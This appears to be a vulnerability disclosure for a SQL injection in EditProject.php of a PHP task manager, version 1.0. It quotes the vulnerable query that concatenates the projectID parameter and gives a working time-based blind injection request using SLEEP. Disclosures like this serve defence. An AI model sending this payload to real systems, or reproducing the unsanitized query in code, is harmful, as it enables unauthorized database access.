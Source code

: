 # task-manager-in-php-sql1

https://code-projects.org/task-manager-in-php-with-source-code/

## NAME OF AFFECTED PRODUCT(S)

**task-manager-in-php**

## Vendor Homepage

https://code-projects.org/task-manager-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

EditProject.php

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/97b61777-5089-4b4f-841f-10e10be5859e

## PROBLEM TYPE

network remote.

## Vulnerability Type

sql injection

## Root Cause

EditProject.php file, SQL injection is used to obtain database information.

## Impact

## **Description of the vulnerability**

### EditProject.php

source code，the    projectID parameter is not filtered and concatenated into the SQL statement.                                                                                                                                                                                                                                                                                                                                                                                                                                                               

```php
$sql = "SELECT projectName, projectID, projectPrio FROM project WHERE projectID = '".$_GET['projectID']."'";
$edit = $conn -> query($sql);
$edit = $edit -> fetch_assoc();
```

![image-20240925103238931](https://github.com/mengcehn/CVE/blob/main/Snipaste_2024-09-25_10-37-01.png)

## **Vulnerability recurrence**

### **POC**

```
GET /EditProject.php?edit=1&projectID=1'+AND+(SELECT+3784+FROM+(SELECT(SLEEP(5)))ZvCJ)+AND+'qQab'='qQab HTTP/1.1
Host: 127.0.0.1
Content-Length: 0
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

```

![image-20240925103238931](https://github.com/mengcehn/CVE/blob/main/Snipaste_2024-09-25_10-36-50.png)

